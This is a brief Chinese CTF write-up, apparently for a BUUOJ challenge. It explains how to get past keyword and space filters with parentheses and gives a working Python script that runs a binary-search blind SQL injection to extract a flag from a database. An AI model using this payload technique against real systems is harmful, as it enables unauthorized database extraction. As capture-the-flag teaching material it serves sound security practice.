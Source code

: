 1.测试过滤字符

1.1 and,or,union被过滤此时只能考虑盲注

1.2 空格，/**/，被过滤可以考虑（）括号绕过



2. 测试当ascii码值大于101时，返回数据不一样



![](images/223892ED5E714AEFBED03C1C926D5879clipboard.png)



![](images/BE23848B5D6C420992DDF821DC538FFEclipboard.png)

此时可以写出盲注脚本：

```javascript
import requests

url = 'http://fc1b4a8a-ce34-4958-80f7-16870eab28bb.node3.buuoj.cn/index.php'
result = ''

for x in range(1, 50):
    high = 127
    low = 32
    mid = (low + high) // 2
    while high > low:
        payload = "if(ascii(substr((select(flag)from(flag)),%d,1))>%d,1,2)" % (x, mid)
        data = {
            "id":payload
        }
        response = requests.post(url, data = data)
        if 'Hello' in response.text:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2

    result += chr(int(mid))
    print(result)
```





